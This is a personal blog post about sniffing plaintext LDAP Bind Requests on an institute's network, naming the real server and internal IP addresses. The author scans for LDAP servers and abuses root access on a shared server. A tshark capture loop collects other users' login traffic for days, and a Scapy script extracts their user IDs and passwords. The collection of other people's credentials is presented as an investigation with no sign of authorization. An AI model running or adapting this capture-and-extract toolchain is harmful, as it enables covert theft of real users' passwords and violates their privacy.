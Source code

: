 ```yaml
---
title: "Extracting Passwords in Plaintext by Sniffing LDAP Bind Requests"
description: In this blog, I’ll share how I retrieved plaintext passwords by intercepting unencrypted LDAP Bind Requests on a remote server where I gained root access.
date: 2024-09-28T07:09:31+05:30
image: assets/images/network_traffic_analysis.png
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["cybersecurity", "infosec", "network", "sniffing", "tcpdump", "tshark", "wireshark", "ldap"]
categories: ["cybersecurity", "infosec", "network"]
---
```

## LDAP Servers on Network
I decided to investigate the LDAP servers within my institute's private network, which utilizes Class B private IP addresses.<br />
I employed [Gill-Singh-A/Port-Scanner](https://github.com/Gill-Singh-A/Port-Scanner) to scan for LDAP ports (389, 636, 3268, 3269) and discovered 49 devices with at least one of these ports open.<br />
![LDAP Port Scan](assets/images/port_scan.png)
## LDAP Anonymous Bind
Following that, I used [Gill-Singh-A/LDAP-Anonymous-Bind-Checker](https://github.com/Gill-Singh-A/LDAP-Anonymous-Bind-Checker) to assess LDAP Anonymous Bind support, finding that 32 devices allowed anonymous binding.<br />
![LDAP Anonymous Bind Check](assets/images/ldap_anonymous_bind_check.png)<br />
After some exploration, I discovered the LDAP server responsible for managing authentication requests for our Computer Center’s credentials.<br />
The server was identified by the hostname **ldap.cc.iitk.ac.in**, supported LDAP Anonymous Bind.
## Computer Center LDAP Server
After manually exploring **ldap.cc.iitk.ac.in**, I discovered that I could retrieve any student’s mobile number using a simple search query.<br />
![CC LDAP Student Information](assets/images/cc_ldap_student_info.png)<br />
However, what truly alarmed me was that the server was not utilizing SSL for data transmission over the network. This meant that all Computer Center credentials used for authenticating to services like Web Mail and SSH servers were being transmitted as plaintext, making them easily accessible to anyone intercepting the traffic.<br />
![LDAP Authentication](assets/images/ldap_authentication.png)
## Network Traffic Capture
To verify my suspicions, I launched **tcpdump** on a remote server at our institute where I had root access and where users can SSH in using their Computer Center credentials. I began intercepting the network traffic on that server. Specifically, I filtered for port 389 to capture only LDAP traffic.
```bash
sudo /usr/sbin/tcpdump -s 65535 -w network_traffic_capture.pcap 'tcp port 389 and src 172.31.1.148 and dst 172.31.1.1'
```
After successfully logging into the server using my Computer Center credentials on another terminal, I stopped the network capture and downloaded the pcap file for further analysis.
## Network Traffic Analysis
After opening the pcap file in **Wireshark** and conducting some analysis, I was able to find my Computer Center user ID and password in plaintext within an LDAP Bind Request.<br />
![Network Traffic Analysis](assets/images/network_traffic_analysis.png)<br />
This confirmed my suspicions: the Computer Center credentials were indeed transmitted as plaintext.
## Capturing using tshark
Next, I created a simple bash script that utilized **tshark** to capture LDAP network traffic on the server and save it into a pcap file. The script processes the pcap file once it reaches 100 MB, filtering to include only LDAP Bind Requests and storing the results in my NFS (Network File System) Directory.
```bash
#! /bin/bash

index=0

while true; do
	/usr/sbin/tshark -w webhome.pcap -i 1 -f "tcp port 389 and host 172.31.1.148 and dst host 172.31.1.1" -a filesize:100000
	/usr/sbin/tshark -r webhome.pcap -R "frame contains \"ou=People,dc=iitk,dc=ac,dc=in\" and ldap.bindRequest" -w webhome_filtered_${index}.pcap
	chmod 600 webhome_filtered_${index}.pcap
	rm -f webhome.pcap
	((index++))
done
```
## Extracting Passwords from Capture File
After collecting LDAP Bind Requests for some days, I downloaded the processed capture file and created a simple Python script using [Scapy](https://scapy.net/) to extract the user IDs and their corresponding passwords. This allowed me to determine how many credentials I had successfully retrieved.
```python
#! /usr/bin/env python3

from sys import argv
from scapy.all import rdpcap, LDAP_BindRequest, TCP, LDAP
from colorama import Fore

packets = rdpcap(argv[1])              # argv[1] Network Capture File (.pcap)

for pkt in packets:
    if LDAP_BindRequest in pkt and pkt[TCP][LDAP][LDAP_BindRequest].authentication.val != b'':
        print(f"{Fore.CYAN}{pkt[TCP][LDAP][LDAP_BindRequest].bind_name.val.decode().split(',')[0].split('=')[1]}\t{Fore.RESET}=>\t{Fore.GREEN}{pkt[TCP][LDAP][LDAP_BindRequest].authentication.val.decode()}{Fore.RESET}")
```
The following was the output<br />
![Extraced Passwords](assets/images/passwords_extracted.png)<br />
## Conclusion
This investigation revealed significant security concerns regarding the transmission of sensitive data over unencrypted connections. It's crucial to implement proper security measures to protect user information in our digital landscape.<br />
As we navigate our digital landscape, it’s essential to ensure that proper security measures are in place to protect user information.